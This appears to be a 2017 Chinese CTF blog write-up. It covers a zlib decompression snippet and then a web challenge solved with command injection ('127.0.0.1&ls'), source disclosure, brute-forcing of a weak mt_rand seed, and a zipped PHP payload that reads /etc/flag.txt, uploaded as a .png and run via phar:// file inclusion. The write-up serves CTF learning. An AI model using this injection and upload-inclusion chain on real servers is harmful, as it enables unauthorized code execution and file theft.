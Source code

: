 ```yaml
---
layout: post
title: 近期笔记
subtitle: 
author: Coink
date: 2017-11-19
categories:
tag:
- Tech
---
```


最近隐写里zlib上镜率比较高，解压缩脚本记录下

```python
#! /usr/bin/env python
import zlib
import binascii
IDAT = "xxxxxxxxxxxxxxxxxxx".decode('hex')
result = binascii.hexlify(zlib.decompress(IDAT))
print result
print result.decode('hex')
```

一道命令执行跟文件包含结合的题：

输入会被当作ping命令执行，竖线被过滤，命令长度限制在3个字符以内，尝试127.0.0.1&ls，列出文件

![](https://i.loli.net/2017/11/19/5a1192adca3ad.png)

转到you_find_upload.php，发现一个随机数

![](https://i.loli.net/2017/11/19/5a1192addcc3d.png)

发现是可以查看源码的

![](https://i.loli.net/2017/11/19/5a1192ae0dfc8.png)

base64解码查看源码，尝试跨目录，发现../被过滤。

```php
<?php
        $type = array('gif','jpg','png');
        mt_srand((time() % rand(1,100000)%rand(1000,9000)));
        echo mt_rand();
        if (isset($_POST['submit'])) {
            $check = getimagesize($_FILES['file']['tmp_name']);
            @$extension = end(explode('.',$_FILES['file']['name']));
            if(in_array($extension,$type)){
                echo 'File is an image - ' . $check['mime'];
                $filename = '/var/www/html/web1/upload/'.mt_rand().'_'.$_FILES['file']['name']; 
                move_uploaded_file($_FILES['file']['tmp_name'], $filename);
                echo "<br>\n";
            } else {
                echo "File is not an image";
            }
        }
        if(isset($_GET['p'])){
            if(@preg_match("/\.\.\//",$_GET['p'])){
                echo "too young too simple";
            }
            else{
               @include $_GET['p'].".php";
            }
        }
        ?>
```

上传的文件只检查后缀，白名单三种图片格式，尝试解析漏洞绕过，无果。

解决随机数问题，发现本质就是随机数种子1000-9000，脚本（by YXM）：

```php
<?php
$t = 333347096;
for ($i = 1;$i<=9000;$i++){
    mt_srand($i);
    $r = mt_rand();
    if($r==333347096){
        echo "seed".$i."\n";
        break;
    }
}
mt_srand($i);
echo "check:".mt_rand()."\n";
echo "answer:".mt_rand();
?>
```

随机数问题解决了，尝试使用压缩上传，协议解压，php文件打包成zip，payload：

```php
<?php 
 $file = fopen('../../../../../../../../etc/flag.txt','r');

    if($file){
        while(!feof($file)){
            $line = fgetc($file);
            echo $line;
        }
    }
    fclose($file);
?>

```

抓包，修改zip文件后缀成png，记录随机数，丢到之前的脚本里跑出上传的目录

![](https://i.loli.net/2017/11/19/5a1192ae115bf.png)

seed404 check:718797317 answer:1230306824

接着用phar://协议解压，访问/web1/you_find_upload.php?p=phar://upload/1230306824_1.png/1

得到flag：

![](https://i.loli.net/2017/11/19/5a1192adbd276.png)

